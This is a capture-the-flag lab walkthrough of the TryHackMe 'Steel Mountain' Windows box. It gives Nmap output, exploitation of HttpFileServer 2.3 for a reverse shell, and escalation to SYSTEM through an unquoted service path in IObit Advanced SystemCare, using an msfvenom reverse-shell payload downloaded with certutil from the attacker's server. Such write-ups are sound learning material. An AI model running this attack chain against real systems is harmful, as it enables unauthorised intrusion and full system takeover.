



# THM - Steel Mountain

#### Ip: 10.10.147.193
#### Name: Steel Mountain
#### Rating: Easy

------------------------------------------------


#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Steel_Mountain]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.72.43   
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-12-11 10:31 CST
Warning: 10.10.72.43 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.72.43
Host is up (0.16s latency).
Not shown: 65393 closed tcp ports (reset), 127 filtered tcp ports (no-response)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2024-12-10T16:30:33
|_Not valid after:  2025-06-11T16:30:33
|_ssl-date: 2024-12-11T16:33:08+00:00; +1s from scanner time.
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC
49164/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-12-11T16:33:02
|_  start_date: 2024-12-11T16:30:25
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 0291163dda3f (unknown)
| smb2-security-mode: 
|   302: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.17 seconds
```

Not finding anything of interest on port 80 or in SMB, I looked at port 8080 HTTP and found it was running HttpFileServer 2.3.



Looking for exploits against this we find: https://www.exploit-db.com/exploits/39161


### Exploitation

Looking at the script we need to serve a copy of nc.exe, fire the exploit (I needed to fire it twice) and we can catch a shell back as user bill:

```
┌──(ryan㉿kali)-[~/THM/Steel_Mountain]
└─$ python2 hfs_rce.py 10.10.72.43 8080
```

```
┌──(ryan㉿kali)-[~/THM/Steel_Mountain]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.72.43 - - [11/Dec/2024 10:41:11] "GET /nc.exe HTTP/1.1" 200 -
10.10.72.43 - - [11/Dec/2024 10:41:11] "GET /nc.exe HTTP/1.1" 200 -
```

```
┌──(ryan㉿kali)-[~/THM/Steel_Mountain]
└─$ nc -lnvp 443                                      
listening on [any] 443 ...
connect to [10.6.72.91] from (UNKNOWN) [10.10.72.43] 49218
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>whoami
whoami
steelmountain\bill

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>hostname
hostname
steelmountain
```

From here we can grab the user.txt flag:




### Privilege Escalation

Looking in Program Files (x86) we see that IObit is installed:

```
C:\Program Files (x86)>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Program Files (x86)

09/29/2019  04:46 PM    <DIR>          .
09/29/2019  04:46 PM    <DIR>          ..
09/26/2019  07:17 AM    <DIR>          Common Files
03/21/2014  11:08 AM    <DIR>          Internet Explorer
09/26/2019  07:17 AM    <DIR>          IObit
08/22/2013  07:39 AM    <DIR>          Microsoft.NET
08/22/2013  07:39 AM    <DIR>          Windows Mail
08/22/2013  07:39 AM    <DIR>          Windows NT
08/22/2013  07:39 AM    <DIR>          WindowsPowerShell
               0 File(s)              0 bytes
               9 Dir(s)  44,137,226,240 bytes free
```

Looking for privilege escalation against this we find: https://www.exploit-db.com/exploits/48543

We can confirm there is an unquoted service path vulnerability here, as well as confirming the service is running as SYSTEM:

```
C:\Program Files (x86)\IObit>sc qc IObitUnSvr
sc qc IObitUnSvr
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: IObitUnSvr
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : IObit Uninstaller Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

However Bill doesn't have the permissions to stop and start the service, so this is a dead end:

```
C:\Program Files (x86)\IObit> sc stop IObitUnSvr 
 sc stop IObitUnSvr 
[SC] OpenService FAILED 5:

Access is denied.
```

Loading WinPEAS however we find another avenue using IObit using Advanced System Care:

```
����������͹ Interesting Services -non Microsoft-
� Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
    AdvancedSystemCareService9(IObit - Advanced SystemCare Service 9)[C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe] - Auto - Running - No quotes and Space detected
    File Permissions: bill [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\IObit\Advanced SystemCare (bill [WriteData/CreateFiles])
    Advanced SystemCare Service
```

Let's confirm this is also running as SYSTEM:
```
C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.


C:\Program Files (x86)\IObit>sc qc AdvancedSystemCareService9
sc qc AdvancedSystemCareService9
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        LOAD_ORDER_GROUP   : System Reserved
        TAG                : 1
        DISPLAY_NAME       : Advanced SystemCare Service 9
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

We can also confirm that bill can stop and start the service:

```
C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

So, lets create a malicious file called Advanced.exe and upload the file to the directory.

We can then stop and start the service and catch a shell back as SYSTEM.

First we'll create the malicious file:

```
┌──(ryan㉿kali)-[~/THM/Steel_Mountain]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.6.72.91 LPORT=445 -f exe > Advanced.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

The set up a Python http server and fetch it with certutil:

```
C:\Program Files (x86)\IObit>certutil -urlcache -split -f "http://10.6.72.91/Advanced.exe
certutil -urlcache -split -f "http://10.6.72.91/Advanced.exe
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
```

Next we'll set up a listener and restart the service:

```
C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9
```

```
┌──(ryan㉿kali)-[~/THM/Steel_Mountain]
└─$ nc -lnvp 445
listening on [any] 445 ...
connect to [10.6.72.91] from (UNKNOWN) [10.10.72.43] 49315
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

We can now grab the final flag:



Thanks for following along!

-Ryan

----------------------------------------------
